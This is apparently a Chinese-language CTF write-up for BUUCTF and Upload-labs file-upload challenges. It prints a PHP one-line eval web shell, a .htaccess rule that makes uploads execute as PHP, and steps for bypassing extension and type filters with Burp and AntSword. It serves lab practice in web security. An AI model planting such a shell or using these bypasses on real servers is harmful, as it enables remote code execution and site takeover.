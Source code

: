 ### [极客大挑战 2019]Knife

最基本的文件上传题。

用蚁剑连网页，密码是Syc

在根目录的flag文件中找到flag。

#### Upload-labs(文件上传实验室)

准备：

1、burp

2、一句话木马：

```php
<?php @eval($_POST['attack']) ?>
其中密码为attack。
```

3、蚁剑

4、.htaccess文件（详见第4题）

```
SetHandler application/x-httpd-php
```



##### pass-01

上传后用Burp抓包，send to request，修改文件类型为php。

然后在接收处可以得到

![image-20200829193855089](BUUCTF——Web.assets/image-20200829193855089.png)

返回原题，修改途径，用蚁剑登录可以得到。

（还有说直接在前端修改JS的，添加.php，但是不知道为什么不行）

##### pass-02

同第一题。

##### pass-03

send to request后修改后缀为php1上传。

##### pass-04

基本都被黑名单了，但是htaccess没有，选择上传。

改后缀为jpg，然后在抓包时修改后缀为htaccess，这样任何上传的文件都会被识别为php。

直接上传文件就可以连接蚁剑了。

##### pass-05

没有绕过大小写，通过把上传的文件改为phP可以上传。

```

```